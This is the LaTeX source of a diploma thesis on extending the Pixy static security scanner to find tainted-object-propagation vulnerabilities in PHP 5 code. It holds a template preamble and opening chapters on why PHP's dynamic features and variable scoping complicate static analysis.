\documentclass[11pt, a4paper, titlepage]{scrbook}

% Packages and own commands
% This file is part of the i10 thesis template developed and used by the
% Media Computing Group at RWTH Aachen University.
% The current version of this template can be obtained at
% <http://www.media.informatik.rwth-aachen.de/karrer.html>.



%-----------------------------------------------------------------------------------------------------------------------------------------
% Befehle
% commands
%-----------------------------------------------------------------------------------------------------------------------------------------

%----------------------------------------------------------------------------------
% \myBigFigure	[ LABEL_PREFIX (optional) ]
%				{ FILENAME (without extension) }
%				{ CAPTION TEXT }
%				{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird in kompletter Breite gesetzt, die Kurzversion der Bildunterschrift erscheint im Abbildungsverzeichnis
%picture using full width of the page, the short caption is what appears in the list of figures index

%----------------------------------------------------------------------------------
% \myFrameBigFigure	[ LABEL_PREFIX (optional) ]
%					{ FILENAME (without extension) }
%					{ CAPTION TEXT }
%					{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird in kompletter Breite gesetzt und eingerahmt, die Kurzversion der Bildunterschrift erscheint im Abbildungsverzeichnis
%picture with frame using the full width of the page, the short caption is what appears in the list of figures index

%----------------------------------------------------------------------------------
% \myHUGEFigure	[ LABEL_PREFIX (optional) ]
%				{ FILENAME (without extension) }
%				{ CAPTION TEXT }
%				{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird rotiert und quer in kompletter Breite gesetzt, die Kurzversion der Bildunterschrift erscheint im Abbildungsverzeichnis
%landscape picture using the full width of the rotated page, the short caption is what appears in the list of figures index

%----------------------------------------------------------------------------------
% \myFigure	[ LABEL_PREFIX (optional) ]
%			{ FILENAME (without extension) }
%			{ CAPTION TEXT }
%			{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird in der Breite der textspalte gesetzt, die Kurzversion der Bildunterschrift erscheint im Abbildungsverzeichnis
%picture using the width of the text column, the short caption is what appears in the list of figures index

%----------------------------------------------------------------------------------
% \myImgRef	[ LABEL_PREFIX (optional) ]
%			{ LABEL OF THE IMAGE }
%
%referenziert das angegebene Bild
%reference to an image

%----------------------------------------------------------------------------------
% \myBigTable	{ YOUR TABULAR DEFINITION }
%			{ CAPTION TEXT }
%			{ TABLE_LABLE }
%
%Tabelle wird in kompletter Breite gesetzt
%table using the full width of the page

%----------------------------------------------------------------------------------
% \myTable	{ YOUR TABULAR DEFINITION }
%			{ CAPTION TEXT }
%			{ TABLE_LABLE }
%
%Tabelle wird in der Breite der Textspalte gesetzt
%table using the width of the text column

%----------------------------------------------------------------------------------
% \myTxtRef	{ LABLE }
%
%Referenz auf Kapitel oder Abschnitte - gibt nummer und namen aus, z.B.: 5.3---"Yaddahyaddah"
%references chapters or sections, outputs number and title, e.g., 5.3---"Yaddahyaddah"

%----------------------------------------------------------------------------------
% \myUnderscore
%
%Setzt einen "sch�nen" Unterstrich f�r URLs
%typesets a 'nice' underscore for URLs

%----------------------------------------------------------------------------------
%\myTilde
%
%Setzt eine "sch�ne" Tilde f�r URLs
%typesets a 'nice' tilde for URLs

%----------------------------------------------------------------------------------
% \myURL	{ TYPESET VERSION OF ANCHOR }
%			{ PRISTINE URL }
%			{ TYPESET VERSION OF URL }
%
%Setzt eine URL
%die typographisch "sch�ne" version erscheint in einer Fu�note,
%im Text erscheint der Ankertext, verlinkt ist die "echte" URL
%typesets a URL
%the typographically correct version appears as a footnote,
%the anchor appears in the text, the link points to the pristine URL

%----------------------------------------------------------------------------------
% \mySimpleURL	{ TYPESET VERSION OF ANCHOR }
%				{ PRISTINE URL }
%
%Setzt eine URL
%die URL erscheint in einer Fu�note,
%im Text erscheint der Ankertext, die URL ist verlinkt
%typesets a URL
%the URL appears as a footnote,
%the anchor appears in the text, the link points to the URL

%----------------------------------------------------------------------------------
% \myProjectURL	{ TYPESET VERSION OF ANCHOR }
%				{ PRISTINE URL INSIDE PROJECT DIRECTORY }
%				{ TYPESET VERSION OF URL INSIDE PROJECT DIRECTORY }
%
%Setzt eine URL innerhalb des Projektverzeichnisses auf "media"
%ACCOUNT muss durch den eigenen Usernamen ersetzt werden
%die typographisch "sch�ne" version erscheint in einer Fu�note,
%im Text erscheint der Ankertext, verlinkt ist die "echte" URL
%typesets a URL inside the project directory on 'media'
%replace ACCOUNT with your username
%the typographically correct version appears as a footnote,
%the anchor appears in the text, the link points to the pristine URL

%----------------------------------------------------------------------------------
% \mnote	{ MARGIN NOTE }
%
%Setzt eine Randnotitz
%puts a comment into the margin in small sans-serif font

%----------------------------------------------------------------------------------
% \todo	{ TODO MARGIN NOTE }
%
%Setzt eine "ToDo"-Randnotitz in rot zur Erinnerung
%puts a 'todo' comment into the margin in red

%----------------------------------------------------------------------------------
% \chapterquote	{ QUOTATION }
%				{ SOURCE }
%
%Setzt ein Zitat zum Einleiten eines Kapitels
%outputs a quote with its source, can be used as an introduction to chapters

%----------------------------------------------------------------------------------
% \myDefBox	{ TERM }
%			{ DEFINITION }
%
%Setzt eine Randnotitz und eine farbige Box (Textspaltenbreite),
%welche einen Begriff und seine Definition enth�lt
%outputs a margin note and a colored box (width of the text column) containing a term and its definition

%----------------------------------------------------------------------------------
% \myBigDefBox	{ TERM }
%				{ DEFINITION }
%
%Setzt eine farbige Box (Seitenbreite), welche einen Begriff und seine Definition enth�lt
%outputs a colored box (width of the page) containing a term and its definition

%----------------------------------------------------------------------------------
% \myDownloadURL	{ TYPESET DOWNLOAD NAME }
%					{ PRISTINE VERSION OF FILENAME }
%					{ TYPESET VERSION OF FILENAME }
%
%Setzt eine farbige Box, welche einen Downloadlink enth�lt
%outputs a colored box containing a download link

%----------------------------------------------------------------------------------
% \emptydoublepage
%
% Leere Doppelseite ohne Kopf- oder Fu�zeile am Ende von Kapiteln
% Clear double page without any header or footer at end of chapters

%----------------------------------------------------------------------------------
% \pagebreak	[ SOME STRANGE LATEX VALUE ]
%
%Eklige pagebreaks f�r den Druck (falls es nicht mehr anders geht)
%pagebreaks for the final print version (last resort weapon against wrong pagebreaks by LaTeX)



%----------------------------------------------------------------------------------
%Packages and parameters
%----------------------------------------------------------------------------------
%inputencoding for UTF-8
\usepackage[utf8]{inputenc}

%Mathe- und Symbolpakete
%packages for mathematical symbols
\usepackage{latexsym}
\usepackage{amsmath}
\usepackage{amssymb}

%Grafikpaket
%grahics package
\usepackage{color}
\usepackage[pdftex]{graphicx}

%relativer Pfad zu den Bildern
%path to your image folder
\graphicspath{{../images/}}

%Abs�tze werden nicht eingezogen, sondern vertikal abgesetzt
%do not indent at new paragraphs but add a vertical offset
\usepackage{noindent}

%Palatino+Helvetica statt Computer Modern als standard fonts:
%change standard fonts to Palatino and Helvetica
\usepackage{palatino}

%Bibliographieeinstellungen
%bibliography settings
\usepackage{natbib}
\bibliographystyle{alpha}

%Zitierbefehle
%citation commands
\newcommand{\fullcite}{\citep} %for "Author [1980]"
\renewcommand{\citeyear}{\citeyearpar} %for "[1980]"

%paket f�r erweiterte kontrollstrukturen
%package for control structures
\usepackage{ifthen}

%marginpar hack --- alle Randnotitzen sollten dann auf der richtigen Seite stehen
%marginpar hack --- moves margin notes to correct position
\usepackage{mparhack}

%lesbare verweise
%make readable references
\usepackage[pdftex,plainpages=false,pdfpagelabels]{hyperref}


% Make the fonts render nice in PDFs
\usepackage{ae}

% Provide nice URLs
\usepackage{url}

% Allow using two languages
\usepackage[american,ngerman]{babel}

% ???
\usepackage{subfigure}

% f�r schattierte,ovale Boxen etc.
\usepackage{fancybox}

% Provide syntax highlighting for code
\usepackage[chapter]{minted}
\newminted{c}{bgcolor=lightgrey,startinline=true,linenos=true}
\newminted{php}{bgcolor=lightgrey,startinline=true,linenos=true}
\newminted{html}{bgcolor=lightgrey,startinline=true,linenos=true}
\newminted{sql}{bgcolor=lightgrey,linenos=false}
\newminted{text}{bgcolor=lightgrey,linenos=false}

% includes ListOfFigures etc. in TOC
\usepackage[nottoc]{tocbibind}

% for using PDFs as complete pages
\usepackage{pdfpages}

%---------------------<Layout in the style of "A Pattern Approach to Interaction Design>---------------------------

% Change page headers and footers:
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[RE]{\slshape \nouppercase{\leftmark}}    % Even page header: "page   chapter"
\fancyhead[LO]{\slshape \nouppercase{\rightmark}}   % Odd  page header: "section   page"
\fancyhead[RO,LE]{\bfseries \thepage}
\renewcommand{\headrulewidth}{1pt}    % Underline headers
\renewcommand{\footrulewidth}{0pt}

\fancypagestyle{plain}{               % No chapter+section on chapter start pages
\fancyhf{}
\fancyhead[RO,LE]{\bfseries \thepage}
\renewcommand{\headrulewidth}{1pt}
\renewcommand{\footrulewidth}{0pt}
}

% Left headings: "1  INTRODUCTION"
\renewcommand{\chaptermark}[1]{%
\markboth{\thechapter\ \ \ \ #1}{}}

% Right headings: "1.1  Basics"
\renewcommand{\sectionmark}[1]{%
\markright{\thesection\ \ \ \ #1}{}}


% Page layout
\topmargin20mm
\addtolength{\headheight}{2pt} % To avoid overfull vboxes from fancyhdr
\footskip10mm % space text bottom <-> date stamp


% Commented all that out because I will not use margin notes and would like to use that space for my text instead.
%\oddsidemargin10mm
%\evensidemargin50mm

%\textwidth100mm
%\marginparsep10mm
%\marginparwidth30mm


\newlength{\fullwidth} % Width of text plus margin notes
\setlength{\fullwidth}{\textwidth}
\addtolength{\fullwidth}{\marginparsep}
\addtolength{\fullwidth}{\marginparwidth}

\setlength{\headwidth}{\fullwidth} % Header stretches over margin notes


%---------------------</Layout in the style of "A Pattern Approach to Interaction Design>---------------------------


%wird f�r die fl�chendeckende Ausgabe der Titelseite ben�tigt
%needed for the full-face titlepage
\usepackage{eso-pic}

%index verwenden
%make an index
\usepackage{makeidx}
\makeindex

%Index Formatierungshilfen
%formatting helpers for the index
\newcommand{\uu}[1]{\underline{#1}}
\newcommand{\ii}[1]{\textit{#1}}
\newcommand{\bb}[1]{\textsf{\textbf{#1}}}

%neue Definition der Index Umgebung
%redesign of the index
\renewenvironment{theindex}{%
  \vspace*{50pt}%
  {\Huge\bfseries\indexname}\par%
  \vspace*{40pt}%
  \setlength{\parskip}{0pt}%
  \setlength{\parindent}{0pt}%
  \small%
  \renewcommand{\item}{\par{}}%
  \renewcommand{\subitem}{\par\hspace{2em}- }%
}%
{}

%Maximale Gliederungstiefe, die noch ins Inhaltsverzeichnis aufgenommen wird
%maximum depth for the table of contents
\setcounter{tocdepth}{1}

%Vorschlag f�r ein sch�nes Farbschema
%Set of colors which look nice together
\usepackage{color}
\definecolor{orange_light}{rgb}{1,0.8,0.4}
\definecolor{orange_med}{rgb}{0.753,0.62,0.373}
\definecolor{orange_dark}{rgb}{0.506,0.412,0.251}

\definecolor{green_light}{rgb}{0.8,1,0.4}
\definecolor{green_med}{rgb}{0.635,0.745,0.376}
\definecolor{green_dark}{rgb}{0.435,0.498,0.255}

\definecolor{blue_light}{rgb}{0.4,0.8,1}
\definecolor{blue_med}{rgb}{0.365,0.624,0.749}
\definecolor{blue_dark}{rgb}{0.251,0.42,0.502}

\definecolor{blue_cs3}{rgb}{0,.4,.8}

\definecolor{pink_light}{rgb}{1,0.435,0.812}
\definecolor{pink_med}{rgb}{0.745,0.38,0.62}
\definecolor{pink_dark}{rgb}{0.498,0.255,0.416}

\definecolor{yellow_light}{rgb}{1,1,0.4}
\definecolor{yellow_med}{rgb}{0.757,0.745,0.373}
\definecolor{yellow_dark}{rgb}{0.506,0.49,0.251}

\definecolor{lightgrey}{rgb}{.9,.9,.9}

%blau (f�r URLs)
%blue (for URLs)
\definecolor{blue}{rgb}{0,0,1}

%notwendig f�r die korrekte Erkennung, auf welcher Seite sich eine Abbildung befindet.
%we need this to determine if a figure is on an odd or even page
\usepackage{chngpage}

%Hiermit k�nnen die Abbildungslegenden frei gestaltet werden
%we need this to redesign the captions
\usepackage[font=normalsize,labelfont=bf]{caption}

%Abbildungen kommen auf eine eigene Seite, wenn sie mehr als 85% des Platzes
%auf einer Seite einnehmen
%if a figure takes more than 85% of a page it will be typeset on a separate page
\renewcommand{\floatpagefraction}{0.85}

%Ben�tigt um gro�e Abbildungen gedreht auf eine Seite zu setzen
%we need this to rotate big figures
\usepackage[figuresright]{rotating}

%Verschiedene L�ngenma�e f�r Textboxen
%dimensions for textboxes
\newlength{\myDefBoxWidth}
\setlength{\myDefBoxWidth}{\textwidth}
\addtolength{\myDefBoxWidth}{-4mm}
%\newlength{\myBigDefBoxWidth}
%\setlength{\myBigDefBoxWidth}{\fullwidth}
%\addtolength{\myBigDefBoxWidth}{-4mm}

%Formathilfen f�r MatLab Code (wer's braucht...)
%pre-defined matlab code formats
\usepackage{alltt}
\definecolor{string}{rgb}{0.7,0.0,0.0}
\definecolor{comment}{rgb}{0.13,0.54,0.13}
\definecolor{keyword}{rgb}{0.0,0.0,1.0}


%-----------------------------------------------------------------------------------------------------------------------------------------
% neue Befehle
% new commands
%-----------------------------------------------------------------------------------------------------------------------------------------

%----------------------------------------------------------------------------------
% \myBigFigure	[ LABEL_PREFIX (optional) ]
%				{ FILENAME (without extension) }
%				{ CAPTION TEXT }
%				{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird in kompletter Breite gesetzt
%picture using full width of the page
\newcommand{\myBigFigure}[4][image]
{
\begin{figure}[t!bp]
	\checkoddpage
	\ifcpoddpage
		%nothing
	\else
		\hspace{-\marginparsep}\hspace{-\marginparwidth}
	\fi
	%use minipage to center the label beneath the figure
	\begin{minipage}{\fullwidth}
		\includegraphics[width= \fullwidth]{#2}
		\caption[#4]{#3}
		\label{#1_#2}
	\end{minipage}
\end{figure}
}


%----------------------------------------------------------------------------------
% \myFrameBigFigure	[ LABEL_PREFIX (optional) ]
%					{ FILENAME (without extension) }
%					{ CAPTION TEXT }
%					{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird in kompletter Breite gesetzt und eingerahmt
%picture with frame using the full width of the page
\newcommand{\myFrameBigFigure}[4][image]
{
\begin{figure}[t!bp]
	\checkoddpage
	\ifcpoddpage
		%nothing
	\else
		\hspace{-\marginparsep}\hspace{-\marginparwidth}
	\fi
	%use minipage to center the label beneath the figure
	\begin{minipage}{\fullwidth}
	\frame{%
		\includegraphics[width= \fullwidth]{#2}%
		}
		\caption[#4]{#3}
		\label{#1_#2}
	\end{minipage}
\end{figure}
}

%----------------------------------------------------------------------------------
% \myHUGEFigure	[ LABEL_PREFIX (optional) ]
%				{ FILENAME (without extension) }
%				{ CAPTION TEXT }
%				{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird rotiert und quer in kompletter Breite gesetzt
%landscape picture using the full width of the rotated page
\newcommand{\myHugeFigure}[4][image]
{
\begin{sidewaysfigure}[t!bp]

		\includegraphics[width= \textheight]{#2}
		\caption[#4]{#3}
		\label{#1_#2}

\end{sidewaysfigure}
}

%----------------------------------------------------------------------------------
% \myFigure	[ LABEL_PREFIX (optional) ]
%			{ FILENAME (without extension) }
%			{ CAPTION TEXT }
%			{ SHORT VERSION OF CAPTION TEXT }
%
%Bild wird in der Breite der textspalte gesetzt
%picture using the width of the text column
\newcommand{\myFigure}[4][image]%
{%
\begin{figure}[ht!bp]%
	\begin{center}%
		\includegraphics[width= \textwidth]{#2}%
		\caption[#4]{#3}
		\label{#1_#2}%
	\end{center}%
\end{figure}%
}%

%----------------------------------------------------------------------------------
% \myImgRef	[ LABEL_PREFIX (optional) ]
%			{ LABEL OF THE IMAGE }
%
%referenziert das angegebene Bild
%reference to an image
\newcommand{\myImgRef}[2][image]%
{%
	\ref{#1_#2}%
}%

%----------------------------------------------------------------------------------
% \myBigTable	{ YOUR TABULAR DEFINITION }
%			{ CAPTION TEXT }
%			{ TABLE_LABLE }
%
%Tabelle wird in kompletter Breite gesetzt
%table using the full width of the page
\newcommand{\myBigTable}[3]%
{%
\begin{table}[htdp]%
	\checkoddpage%
	\ifcpoddpage%
		%nothing
	\else%
		\hspace{-\marginparsep}\hspace{-\marginparwidth}%
	\fi%
	\begin{minipage}{\fullwidth}%
		\begin{center}%
			#1%
			\caption{#2}%
			\label{#3}%
		\end{center}%
	\end{minipage}%
\end{table}%
}%

%----------------------------------------------------------------------------------
% \myTable	{ YOUR TABULAR DEFINITION }
%			{ CAPTION TEXT }
%			{ TABLE_LABLE }
%
%Tabelle wird in der Breite der Textspalte gesetzt
%table using the width of the text column
\newcommand{\myTable}[3]%
{%
\begin{table}[htdp]%
	\begin{center}%
		#1%
		\caption{#2}%
		\label{#3}%
	\end{center}%
\end{table}%
}%

%----------------------------------------------------------------------------------
% \myTxtRef	{ LABLE }
%
%Referenz auf Kapitel oder Abschnitte - gibt nummer und namen aus, z.B.: 5.3---"Yaddahyaddah"
%references chapters or sections, outputs number and title, e.g., 5.3---"Yaddahyaddah"
\newcommand{\myTxtRef}[1]
{%
	\ref{#1}---``\nameref{#1}''%
}

%----------------------------------------------------------------------------------
% \myUnderscore
%
%Setzt einen "sch�nen" Unterstrich f�r URLs
%typesets a 'nice' underscore for URLs
\newcommand{\myUnderscore}{$\underline{\hspace{0.5em}}$}

%----------------------------------------------------------------------------------
%\myTilde
%
%Setzt eine "sch�ne" Tilde f�r URLs
%typesets a 'nice' tilde for URLs
\newcommand{\myTilde}{$\sim$}

%----------------------------------------------------------------------------------
% \myURL	{ TYPESET VERSION OF ANCHOR }
%			{ PRISTINE URL }
%			{ TYPESET VERSION OF URL }
%
%Setzt eine URL
%die typographisch "sch�ne" version erscheint in einer Fu�note,
%im Text erscheint der Ankertext, verlinkt ist die "echte" URL
%typesets a URL
%the typographically correct version appears as a footnote,
%the anchor appears in the text, the link points to the pristine URL
\newcommand{\myURL}[3]%
{%
	\textcolor{blue}{%
		\href{#2}{#1}%
	}%
	\footnote{#3}
}

%----------------------------------------------------------------------------------
% \mySimpleURL	{ TYPESET VERSION OF ANCHOR }
%				{ PRISTINE URL }
%
%Setzt eine URL
%die URL erscheint in einer Fu�note,
%im Text erscheint der Ankertext, die URL ist verlinkt
%typesets a URL
%the URL appears as a footnote,
%the anchor appears in the text, the link points to the URL
\newcommand{\mySimpleURL}[2]%
{%
	\textcolor{blue}{%
		\href{#2}{#1}%
	}%
	\footnote{#2}
}

%----------------------------------------------------------------------------------
% \myProjectURL	{ TYPESET VERSION OF ANCHOR }
%				{ PRISTINE URL INSIDE PROJECT DIRECTORY }
%				{ TYPESET VERSION OF URL INSIDE PROJECT DIRECTORY }
%
%Setzt eine URL innerhalb des Projektverzeichnisses auf "media"
%ACCOUNT muss durch den eigenen Usernamen ersetzt werden
%die typographisch "sch�ne" version erscheint in einer Fu�note,
%im Text erscheint der Ankertext, verlinkt ist die "echte" URL
%typesets a URL inside the project directory on 'media'
%replace ACCOUNT with your username
%the typographically correct version appears as a footnote,
%the anchor appears in the text, the link points to the pristine URL
\newcommand{\myProjectURL}[3]%
{%
	\textcolor{blue}{%
		\href{http://media.informatik.rwth-aachen.de/~ACCOUNT/thesis/#2}{#1}%
	}%
	\footnote{http://media.informatik.rwth-aachen.de/\myTilde ACCOUNT/thesis/#3}%
}

%----------------------------------------------------------------------------------
% \mnote	{ MARGIN NOTE }
%
%Setzt eine Randnotitz
%puts a comment into the margin in small sans-serif font
\newcommand{\mnote}[1]{\marginpar{\raggedright\textsf{{\footnotesize{#1}}}}}

%----------------------------------------------------------------------------------
% \todo	{ TODO MARGIN NOTE }
%
%Setzt eine "ToDo"-Randnotitz in rot zur Erinnerung
%puts a 'todo' comment into the margin in red
\definecolor{red}{rgb}{1,0,0}
\newcommand{\todo}[1]{\mnote{\textcolor{red}{ToDo: #1}}}

%----------------------------------------------------------------------------------
% \chapterquote	{ QUOTATION }
%				{ SOURCE }
%
%Setzt ein Zitat zum Einleiten eines Kapitels
%outputs a quote with its source, can be used as an introduction to chapters
\newcommand{\chapterquote}[2]{
\begin{quotation}
    \begin{flushright}
	\noindent\emph{``{#1}''\\[1.5ex]---{#2}}
    \end{flushright}
\end{quotation}
}

%----------------------------------------------------------------------------------
% \myDefBox	{ TERM }
%			{ DEFINITION }
%
%Setzt eine Randnotitz und eine farbige Box (Textspaltenbreite),
%welche einen Begriff und seine Definition enth�lt
%outputs a margin note and a colored box (width of the text column) containing a term and its definition
\newcommand{\myDefBox}[2]
{%
	\setlength{\fboxrule}{1mm}%
	\fcolorbox{orange_med}{orange_light}%
	{%
		\parbox{\myDefBoxWidth}{{\bfseries\scshape#1:}\\#2}%
	}%
	\mnote{Definition:\\\emph{#1}}
}

%----------------------------------------------------------------------------------
% \myBigDefBox	{ TERM }
%				{ DEFINITION }
%
%Setzt eine farbige Box (Seitenbreite), welche einen Begriff und seine Definition enth�lt
%outputs a colored box (width of the page) containing a term and its definition
\newcommand{\myBigDefBox}[2]
{%
	\begin{figure}[h!]
	\setlength{\fboxrule}{1mm}%
	\checkoddpage%
	\ifcpoddpage%
		%nothing
	\else%
		\hspace{-\marginparsep}\hspace{-\marginparwidth}%
	\fi%
	\fcolorbox{orange_med}{orange_light}%
	{%
		\parbox{\myBigDefBoxWidth}{{\bfseries\scshape#1:}\\#2}%
	}%
	\end{figure}
}

%----------------------------------------------------------------------------------
% \myDownloadURL	{ TYPESET DOWNLOAD NAME }
%					{ PRISTINE VERSION OF FILENAME }
%					{ TYPESET VERSION OF FILENAME }
%
%Setzt eine farbige Box, welche einen Downloadlink enth�lt
%outputs a colored box containing a download link
\newcommand{\myDownloadURL}[3]{%
\checkoddpage%
	\ifcpoddpage%
		%nothing
	\else%
		\hspace{-\marginparsep}\hspace{-\marginparwidth}%
	\fi%
\setlength{\fboxrule}{1mm}%
\fcolorbox{green_med}{green_light}{%
\begin{minipage}{\myBigDefBoxWidth}%
\begin{center}%
\myProjectURL{#1}{folder/#2}{folder/#3}%
\end{center}%
\end{minipage}%
}%
}

%----------------------------------------------------------------------------------
% \emptydoublepage
%
% Leere Doppelseite ohne Kopf- oder Fu�zeile am Ende von Kapiteln
% Clear double page without any header or footer at end of chapters
\newcommand{\emptydoublepage}{\clearpage\thispagestyle{empty}\cleardoublepage}

%----------------------------------------------------------------------------------
% \pagebreak	[ SOME STRANGE LATEX VALUE ]
%
%Eklige pagebreaks f�r den Druck (falls es nicht mehr anders geht)
%pagebreaks for the final print version (last resort weapon against wrong pagebreaks by LaTeX)
\newcommand{\PB}[1][3]
{%
	\pagebreak[#1]%
}


%----------------------------------------------------------------------------------
% Avoid club lines and widows (and split footnotes).
\clubpenalty=10000
\widowpenalty=10000
\interfootnotelinepenalty=10000



%% abbrevations
\def\ie{i.\,e.\ }
\def\etc{etc.\ }
\def\cf{cf.\ }

%% Informationen for the PDF file
\hypersetup{
 pdfauthor={Oliver Klee, pixy@oliverklee.de},
 pdftitle={Tainted object propagation analysis for PHP 5 based on Pixy},
 pdfsubject={Tainted object propagation analysis for PHP 5 based on Pixy},
 pdfkeywords={PHP, security, static code analysis, web security, code scanning, alias analysis}
}



\begin{document}

\selectlanguage{american}
% allow more flexible whitespaces to avoid hyphenation and overfull hboxes
\sloppy
\raggedbottom

%--------------------------------------------------------------
\frontmatter

\begin{titlepage}

\begin{center}
\huge\textbf{\textsf{\textcolor{blue_cs3}{Tainted object propagation analysis\\for PHP~5 based on Pixy}}\normalsize}
\end{center}

\vfill

\begin{center}
  \textsf{
    Diploma thesis\\
    \vspace{1em}
    Oliver Klee\\
    Bonner Str.~63, 53173 Bonn\\
    \url{pixy@oliverklee.de}\\
    \vspace{1em}
    Bonn, \today
  }
\end{center}

\vfill

\begin{minipage}{8cm}
  \selectlanguage{ngerman}
  \textsf{Rheinische Friedrich-Wilhelms-Universität Bonn\\Institut für Informatik III\\Professor Dr.~Armin B.~Cremers}
  \selectlanguage{american}
\end{minipage}
\begin{minipage}{8cm}

\includegraphics[scale=.12]{images/logo_ubo_i3_rgb}{}
\end{minipage}

\end{titlepage}


\thispagestyle{empty}
\emptydoublepage

\thispagestyle{empty}

\vspace*{35\baselineskip}

\begin{minipage}{\fullwidth}
\hbox to \textwidth{\hrulefill}
\par
I hereby declare that I have created this work completely on my own and that it has not been submitted previously for a degree at any university. To the best of my knowledge and belief, this thesis contains no material previously published or written by another person, except where due reference is made.

\vspace{1cm}
Bonn, 2013-05-01

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% Hinweis:
%%
%% Diese Erklärung wird von der Prüfungsordnung für Diplomarbeiten
%% verlangt und ist zu unterschreiben.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{minipage}

\emptydoublepage

\tableofcontents
\emptydoublepage

%--------------------------------------------------------------
\mainmatter

\chapter{Introduction (READY FOR FEEDBACK)}

\section{Motivation: Why a Current Static PHP Security Scanner Is Important}
\index{PHP}
Currently, there is no free and high-quality static code analysis tool available---and still maintained---that can find vulnerabilities in PHP 5.4.x code. This is a problem because new vulnerabilities in web applications are found almost daily~\cite{osvdb}, and PHP is used for more than 75 \% of the top-million sites~\cite{w3techs-php-usage}, including Facebook (using the HipHop PHP compiler~\cite{hiphop}, Wikipedia and WordPress.com~\cite{w3techs-php-sites}. Figure~\ref{fig:php-percentage} on page~\pageref{fig:php-percentage} shows the percentages of the major server-side programming languages.

\begin{figure}[htb]
  \begin{center}
    \includegraphics[scale=1.0]{images/language-percentage}
    \caption{PHP by far has the biggest percentage of server-side programming languages. Note that this only includes the languages of sides where the language actually is known, and that some sites may use more than one language.}
    \label{fig:php-percentage}
  \end{center}
\end{figure}


\section{Research Problems and Approach}

This thesis aims to move the PHP security scanner \bb{Pixy}~(\cite{pixy}, page~\pageref{pixy}) and its subproject \bb{PhpParser}~\cite{phpparser} one big step forward towards being able to scan PHP~5 code and find security potential vulnerabilities that have been made possible with the recent changes in PHP. Particularly, it provides an approach for finding tainted-object-propagation\footnote{See section~\ref{tainted-object-propagation} on page~\pageref{tainted-object-propagation} for details.} vulnerabilities in object fields, include the fields into Pixy's alias analysis, and model the default pass-by-reference behavior for objects in PHP~5.

In addition, this thesis includes an overview over common vulnerabilities in PHP web applications as well as the theoretical foundation for static code analysis and security scanning.

Code quality matters---in particular, for an open-source tool like Pixy, code quality is important to attract more contributors to the project. Thus, this thesis also aims at getting Pixy to work with the current Java~7\index{Java} without any warnings and making Pixy's code more maintainable.

These technical goals are mostly necessary due to the fact that the Pixy code base had not been maintained (or even touched) since 2006, and both PHP (\ie the scanned language) as well as Java (i.e., the scanner's language) had evolved in the meantime.

\emptydoublepage

\chapter{PHP (partly READY FOR FEEDBACK, partly TODO)}
\label{php}\index{PHP}

PHP~\cite{php-in-action} is a powerful object-oriented, dynamically typed server-side web scripting language.

This chapter gives an overview over the challenges associated with static analysis for PHP as well as the inner workings of PHP that are relevant for conducting alias analysis on PHP code.

\section{Challenges in Static Analysis for PHP (READY FOR FEEDBACK, PROOFREAD)}

In PHP, it is possible to use variables for variable names (which is called ``variable variables'')\index{variable variables|see{variables!variable}}\index{variables!variable}, field names, class names or for the inclusion of other classes. This practically is the same as multiple pointers in C++, and poses a problem for static analysis~\cite{tamper-resistance} that forces static analysis to fall back on approximations.

For example, the following constructs are possible, making static analysis a lot harder than \eg for Java:

\begin{phpcode}
// bar contains the name of the class to instantiate.
$foo = new $bar();

// foo contains the name of the variable that gets assigned a 1.
$$foo = 1;
\end{phpcode}

\index{require\_once}
\begin{phpcode}
// To correctly resolve this include, a scanner would need to parse how
// t3lib_extMgm::extPath creates paths.
require_once(t3lib_extMgm::extPath('seminars') .
  'pi2/class.tx_seminars_pi2.php');

// Depending on the value of classFlavor, different version of the same
// class will be used. This results in runtime class resolution.
switch ($classFlavor) {
  case FLAVOR_ORANGE:
    require_once('Orange.php');
    break;
  case FLAVOR_VANILLA:
    require_once('Vanilla.php');
    break;
  default;
    require_once('Default.php');
    break;
}

// classFile includes the path of the class file to include.
require_once($classFile);

// The class definition of MyClass might be different, depending on
// which file has just been included.
$bar = new MyClass();
\end{phpcode}

In addition, PHP starting from version 5 makes use of so-called \emph{autoloading}, \ie the file with the code of a class gets loaded dynamically when the class is used for the first time. PHP does not provide a default autoloader; instead, programmers need to define their own autoloading routines and register these with PHP.~\cite{php-manual-autoloading}
\index{autoloading}\index{autoloader|see{autoloading}}

\begin{phpcode}
// The class file for this class has not been included and will be
// implictly loaded on-demand by the autoloader.
$container = new SmartContainer();
\end{phpcode}

In addition, type-hinted parameters can be overwritten within a function:\index{type hinting}

\begin{phpcode}
protected function foo(array $bar) {
  if (empty($bar)) {
    // bar changes its type from an array to an integer.
    $bar = 42;
  }
}
\end{phpcode}



\section{Variables, References and Aliases (READY FOR FEEDBACK, PROOFREAD)}
\label{php-variables}\index{variables in PHP}

To be able to conduct alias analysis for PHP, it is important to fully understand the way variables and references in PHP work. The following section covers this, including the implementation details of variables in PHP as well as the various types of references that are possible in PHP.

Many of these language details are referenced in the PHP manual, which---together with the reference implementation---is the authoritative source for details on the PHP language.


\subsection{Local and Global Variable Scope}
\label{sec:variable-scope}

Variables in PHP can have one of two scopes: local and global.~\cite{php-manual-scope} PHP stores the variables in symbol tables, using one symbol table per scope.~\cite{php-manual-reference-counting}
\index{symbol table}

\subsubsection{Global Scope}
\index{global scope}\index{global variables|see{global scope}}\index{scope!global|see{global scope}}\index{variables!global|see{global scope}}

Any variable that is defined outside of a function of method is considered to be \emph{global}. By default, global variables are available only in the context outside of functions---even in files other than where they have been defined (but only \emph{after} they have been declared, of course).

In the following example, the variable \texttt{\$answer} is declared in global scope and thus is available even for code in the included PHP file \texttt{otherFile.php}---as long as the code that accesses the variable is located in global scope as well.

\begin{phpcode}
$answer = 42;
include('otherFile.php');
\end{phpcode}


\subsubsection{Local Function Scope}
\index{local scope}\index{local variables|see{local scope}}\index{scope!local|see{local scope}}\index{variables!local|see{local scope}}

